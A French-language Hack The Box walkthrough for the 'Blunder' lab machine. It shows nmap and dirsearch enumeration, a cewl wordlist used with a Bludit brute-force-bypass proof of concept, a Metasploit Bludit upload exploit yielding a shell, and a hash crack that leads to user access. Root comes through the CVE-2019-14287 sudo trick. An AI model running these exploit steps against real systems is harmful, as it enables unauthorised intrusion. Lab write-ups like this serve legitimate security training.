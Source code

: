 ![Pic1](../img/blunder1.PNG?raw=true) </br>

# Introduction

Blunder est une machine linux dont l'adresse IP est 10.10.10.191.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* Recherche d'exploit.
* Elevation par CVE-2019-14287 (faille sudo 2019)
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.191
```
![Pic2](../img/blunder2.PNG?raw=true) </br>
Un port FTP et un port 80, nous allons faire l'énumération classique du port 80 avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 200 -x 400,403,404,500 -u http://10.10.10.191/
```
![Pic3](../img/blunder3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
La page install.php contient :</br>
![Pic4](../img/blunder4.PNG?raw=true) </br>
La page todo.txt contient :</br>
![Pic5](../img/blunder5.PNG?raw=true) </br>
Nous savons donc plusieurs choses :
* Le cms Bludit est installé mais pas mis à jour.
* Le ftp est off.
* Les anciens users sont supprimés.
* Il y a un utilisateur fergus.
Nous pouvons alors chercher un exploit pour Bludit :
```bash
$ searchsploit bludit
```
![Pic6](../img/blunder6.PNG?raw=true) </br>
Le premier : Authentication Bruteforce Mitigation Bypass a un POC sur un site :</br>
https://rastating.github.io/bludit-brute-force-mitigation-bypass/
</br>
Pour l'exécuter, il nous faut un user et une liste de mot de passe, nous avons vu l'utilisateur fergus mais pas de mot de passe, nous allons utiliser l'outil cewl.</br>
Cewl est un tool qui créer une wordlist des mots provenants d'un site web :
```bash
$ cewl http://10.10.10.191 -w wordlist_htb.txt
```
On utilise la liste pour l'exploit :
```bash
$ python3 POC.py
```
![Pic7](../img/blunder7.PNG?raw=true) </br>
Nous allons continuer sur metasploit pour la suite :
```bash
$ msfconsole
msf > search bludit
msf > use exploit/linux/http/bluedit_upload_images_exec
msf > set bluditpass RolandDeschain
msf > set bludituser fergus
msf > set rhosts 10.10.10.191
msf > run
```
![Pic8](../img/blunder8.PNG?raw=true) </br>
Nous avons un shell en tant que www-data. Si on se déplace dans le répertoire parent, il y a un dossier nommé "database" avec un fichier
contenant un hash de l'admin:</br>
![Pic9](../img/blunder9.PNG?raw=true) </br>
Le hash est du SHA1, qui une fois décodé donne : Password120.</br>
Ce dernier fonctionnera avec l'utilisateur hugo, ce qui nous permet de récupérer le user.txt :
```bash
$ su hugo
$ id
$ cat /home/hugo/user.txt
```
![Pic10](../img/blunder10.PNG?raw=true) </br>

# Obtenir un accès administrateur
Pour l'élèvation de privilège, très simple, on vérifie nos droits et on voit la faille qui correspond à la CVE CVE-2019-14287 :
```bash
$ sudo -l 
$ sudo -u#-1 /bin/bash
```
![Pic11](../img/blunder11.PNG?raw=true) </br>